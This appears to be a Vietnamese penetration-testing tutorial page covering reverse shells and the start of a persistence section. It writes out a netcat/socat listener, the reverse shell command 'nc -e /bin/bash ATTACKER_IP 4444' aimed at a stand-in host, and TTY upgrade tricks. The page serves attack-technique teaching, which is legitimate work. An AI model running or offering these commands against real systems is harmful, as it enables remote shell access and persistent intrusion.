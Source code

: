 ```{=html}
<!-- -->
```
-   Listener trên máy tấn công:

```{=html}
<!-- -->
```
-   ncat -lvnp 4444 hoặc socat TCP-LISTEN:4444,reuseaddr,fork
    EXEC:/bin/bash,pty,stderr,setsid,sigint,sane.

```{=html}
<!-- -->
```
-   Trigger payload trên mục tiêu:

```{=html}
<!-- -->
```
-   Netcat: nc -e /bin/bash ATTACKER_IP 4444

-   Python: reverse shell one-liner

-   PowerShell: tải & chạy script

```{=html}
<!-- -->
```
-   Nâng cấp shell:

```{=html}
<!-- -->
```
-   Dùng python3 -c \'import pty; pty.spawn(\"/bin/bash\")\' để có TTY

-   Dùng rlwrap từ đầu hoặc stty raw -echo; fg để cải thiện trải nghiệm

```{=html}
<!-- -->
```
-   Relay / Pivot nếu cần\*\*:

```{=html}
<!-- -->
```
-   socat hoặc SSH dynamic port forwarding

05 -- Persistence (duy trì hiện diện)

-   Persistence là giai đoạn sau khi đã xâm nhập thành công (Initial
    Access + Execution) bạn tạo hoặc giữ một "cửa hậu" để:

```{=html}
<!-- -->
```
-   Có thể quay lại hệ thống bất kỳ lúc nào, ngay cả khi phiên hiện tại
    bị mất.

-   Không cần khai thác lại từ đầu.

-   Giảm rủi ro bị chặn nếu chỉ có một vector truy cập.
